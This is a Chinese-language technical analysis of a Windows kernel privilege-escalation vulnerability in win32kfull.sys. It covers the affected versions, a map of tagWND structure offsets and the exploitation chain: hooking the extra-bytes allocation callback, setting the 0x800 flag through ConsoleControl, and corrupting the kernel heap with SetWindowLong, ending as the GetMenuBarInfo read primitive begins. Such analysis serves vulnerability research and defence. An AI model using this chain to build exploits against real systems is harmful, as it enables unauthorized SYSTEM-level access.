## 一、漏洞描述

漏洞发生在 Windows 图形驱动 `win32kfull.sys` 中，当调用 `win32kfull!NtUserCreateWindowEx` 函数创建窗口且 `tagWND→cbWndExtra≠0` 时，该函数调用 `win32kfull!xxxClientAllocWindowClassExtraBytes` 回调用户层函数 `user32.dll!__xxxClientAllocWindowClassExtraBytes` 分配内存，攻击者可以 Hook 这个用户层函数调用 `ntdll!NtCallbackReturn` 向内核返回一个任意值，并且当 `tagWND→flag` 包含 0x800 标志时该返回值将被视为相对内核桌面堆起始地址的偏移。用户层调用 `NtUserConsoleControl` 可以修改 `tagWND→flag` 值包含 0x800，因此返回值将直接被用于堆内存寻址，引发内存越界访问。攻击者通过越界读写可复制 system 进程 token 到当前进程完成提权。

## 二、影响范围

Windows Server, version 20H2 (Server Core Installation)

Windows 10 Version 20H2 for ARM64-based Systems

Windows 10 Version 20H2 for 32-bit Systems

Windows 10 Version 20H2 for x64-based Systems

Windows Server, version 2004 (Server Core installation)

Windows 10 Version 2004 for x64-based Systems

Windows 10 Version 2004 for ARM64-based Systems

Windows 10 Version 2004 for 32-bit Systems

Windows Server, version 1909 (Server Core installation)

Windows 10 Version 1909 for ARM64-based Systems

Windows 10 Version 1909 for x64-based Systems

Windows 10 Version 1909 for 32-bit Systems

Windows Server 2019 (Server Core installation)

Windows Server 2019

Windows 10 Version 1809 for ARM64-based Systems

Windows 10 Version 1809 for x64-based Systems

Windows 10 Version 1809 for 32-bit Systems

Windows 10 Version 1803 for ARM64-based Systems

Windows 10 Version 1803 for x64-based Systems

## 三、环境准备

cn_windows_10_consumer_editions_version_1809_updated_sept_2019_x64_dvd_ecb7b897.iso

## 四、漏洞利用效果

触发漏洞之前的权限：



触发漏洞之后的权限：



## 五、前置知识

### 1. tagWND 结构体

Windows 使用 `tagWND` 结构体来描述每个窗口，这个结构体在 win7 `win32k.sys` 加载 pdb 之后可以看到相对完整的信息，之后的版本 pdb 文件中 `tagWND` 已经看不全了。下面是先人总结出来的比较完整的 `tagWND` 结构：

```bash
ptagWND(user layer)
    0x10 unknown
        0x00 pTEB
            0x220 pEPROCESS(of current process)
    0x18 unknown
        0x80 kernel desktop heap base
    0x28 ptagWNDk(kernel layer)
        0x00 hwnd
        0x08 kernel desktop heap base offset
        0x18 dwStyle
        0x58 Window Rect left
        0x5C Window Rect top
        0x98 spMenu(uninitialized)
        0xC8 cbWndExtra
        0xE8 dwExtraFlag
        0x128 pExtraBytes
    0x90 spMenu(analyzed by in1t)
        0x00 hMenu
        0x18 unknown0
            0x100 unknown
                0x00 pEPROCESS(of current process)
        0x28 unknown1
            0x2C cItems(for check)
        0x40 unknown2(for check)
        0x44 unknown3(for check)
        0x50 ptagWND
        0x58 rgItems
            0x00 unknown(for exploit)
        0x98 spMenuk
            0x00 pSelf
```

后面反汇编代码中的用到 `tagWND` 时，可以进行查阅。

### 2. HMValidateHandle

参考 [HMValidateHandle 技术](../HMValidateHandle/)。

## 六、漏洞分析

### 1. CreateWindowEx 函数实现

这个漏洞是由 `CreateWindowEx` 函数产生，`CreateWindowEx` 函数最终会调用 `win32kfull!xxxCreateWindowEx`，当通过该函数创建一个带扩展内存的窗口时，`xxxCreateWindowEx` 会调用 `xxxClientAllocWindowClassExtraBytes` 分配对应的扩展内存，并将返回值保存到 `ptagWND+0x28+0x128` 的位置。

通过查阅上面 `tagWND` 的结构可知，`ptagWND+0x28+0x128` 是 `ptagWND->ptagWNDk->pExtraBytes`，根据 `ptagWND+0x28+0xE8` 位置的 `dwExtraFlag` 标记该字段保存对应窗口的扩展内存的内存指针或相对于内核桌面堆起始地址的偏移。

通过反汇编可以看出只有 `ptagWND->ptagWNDk->cbWndExtra` 不为 0 的时候，才会调用 `win32kfull!xxxClientAllocWindowClassExtraBytes` 来设置 `ptagWNDk->pExtraBytes` ：



不等号重载（0xA1 - 0x79 = 0x28）：



`win32kfull!xxxClientAllocWindowClassExtraBytes` 实现：



- 22 行：通过 `nt!KeUserModeCallback[11]` 回调记录在 `PEB.KernelCallbackTable` 表中第 123 项 的用户层函数，该项是 `user32!_xxxClientAllocWindowClassExtraBytes` 函数的指针
- 26 行：`user32!_xxxClientAllocWindowClassExtraBytes` 返回信息的长度应该为 0x18 字节
- 29 行：存储返回信息的地址需小于 `MmUserProbeAddress`（0x7fffffff0000）
- 31 行：返回信息的第一个指针类型指向在用户态申请的用户堆空间
- 34 行：调用 `ProbeForRead` 验证申请的用户堆地址 + 长度是否小于 `MmUserProbeAddress`（0x7fffffff0000）
- 32、35 行：`xxxClientAllocWindowClassExtraBytes` 返回用户堆空间地址

用来自@iamelli0t的一张图表示这个过程：



### 2. 通过 NtCallbackReturn 设置 pExtraBytes

通过上面的分析可知，回调 `user32!_xxxClientAllocWindowClassExtraBytes` 后的返回值将直接赋值给 `pExtraBytes`，看一下这个用户层回调函数的实现：



- 9 行：通过 `RtlAllocateHeap` 申请 `cbWndExtra` 大小的用户堆空间
- 10行：调用 `NtCallbackReturn` 将分配的空间地址返回到内核层

`win32kfull!xxxClientAllocWindowClassExtraBytes` 返回后，`ptagWND→ptagWNDk→pExtraBytes` 会被赋值为申请到的用户空间堆地址：



不难看出通过用户层 hook `user32!_xxxClientAllocWindowClassExtraBytes` 便可以控制 `ptagWND→ptagWEDk→pExtraBytes` 的值，而 `ptagWND→ptagWEDk→cbWndExtra` 的值可以在创建窗口 `WNDCLASSEX` 时指定。

前面说过，只有 `dwExtraFlag` 包含指定标记时内核才会将 `pExtraBytes` 当成偏移解析，该偏移量是相对内核堆空间的。

现在假设我们如果可以修改 `dwExtraFlag`，再配合一个可以写入 `pExtraBytes` 偏移指向的内存数据的地方，就可以破坏内核堆内存。

### 3. 利用 ConsoleControl 控制 dwExtraFlag

`ConsoleControl` 是 user32.dll 中的一个未公开的函数，该函数中调用 `win32u!NtUserConsoleControl` 进入内核态：



`win32u!NtUserConsoleControl` 导出时进行了重命名，原名 `win32u!ZwUserConsoleControl`：



最终进入 `win32kfull!NtUserConsoleControl`，该函数接收三个参数，第一个参数为功能 ID，第二个参数为控制台进程信息结构体数组，第三个参数为控制台进程信息结构体数组长度，实现如下：



由 14、16、18 行可知：

- 功能 ID 必须小于 6
- 控制台进程信息结构体数组不大于 0x18

满足这两个条件之后，才会传参到 `win32kfull!xxxConsoleControl` 中，该函数根据传入的功能 ID 进行不同的操作（功能 ID 为 1-6），第 6 个才是和桌面扩展内存相关的：



对该段代码分析可知，功能 6 调用了 `DesktopAlloc` 在内核堆空间中分配内存后重新计算偏移赋值给 `ptagWNDk→pExtraBytes`，并修改 `ptagWNDk→dwExtraFlag` 包括 0x800。

### 4. 利用 SetWindowLong 进行内核堆越界写

POC 中可以看出来，利用 `user32!SetWindowLong` 可以修改 `pExtraBytes` 偏移指向的内存以实现内核堆的越界写。

在 unicode 模式下，`user32!SetWindowLong` 指向 `user32!SetWindowLongW`，实现如下：



最后调用 `win32u!NtUserSetWindowLong` 进入内核态 `win32kfull!NtUserSetWindowLong`，`hwnd` 为窗口句柄，`nIndex` 为写入扩展内存的偏移，`value` 为要写入的值，实现如下：



通过 `ValidateHwndEx` 可获取到 `hwnd` 句柄对应的 `tagWND` 指针(`ptagWND`)，最终将 `ptagWND`、`nIndex`、`value` 传入 `win32kfull!xxxSetWindowLong` 中，该函数部分实现：



满足两个条件才能采用基于 `kernel_desk_heap_base_addr+pExtraBytes+nIndex` 的方式寻址：

1. **0 < nIndex + 4 < cbWndExtra**：`nIndex` 通过传参控制，`cbWndExtra` 是在定义窗口类的时候指定的
2. **dwExtraFlag&0x800=0**：`dwExtraFlag` 必须包含 0x800 标志，这个变量值并不能直接控制，但是可以通过其他 API 函数进行间接控制

最终将 `value` 写入对应的内存。

通过之前的分析可知，`pExtraBytes` 的值是可以通过 `NtCallbackReturn` 进行控制，如果再可以控制 `dwExtraFlag` 的话就可以对内核堆空间进行任意位置写操作了。

和 `SetWindowLong` 比较相似的函数还有 `SetWindowLongPtr`，实现上差不多，通过后者可以修改内核指针指向的内容，EXP 中修改指针的操作都是用 `SetWindowLongPtr`。

### 5. 利用 GetMenuBarInfo 进行内核堆越界读

利用 `user32.dll!GetMenuBarInfo` 进行任意地址读的姿势是第一次披露，之前没见过。该函数中直接调用 `ntdll.dll!NtUserGetMenuBarInfo` 进入内核态：



对应的内核函数在 `win32kfull.sys!NtUserGetMenuBarInfo` 中，该函数里面继续调用 `win32kfull.sys!xxxGetMenuBarInfo`：

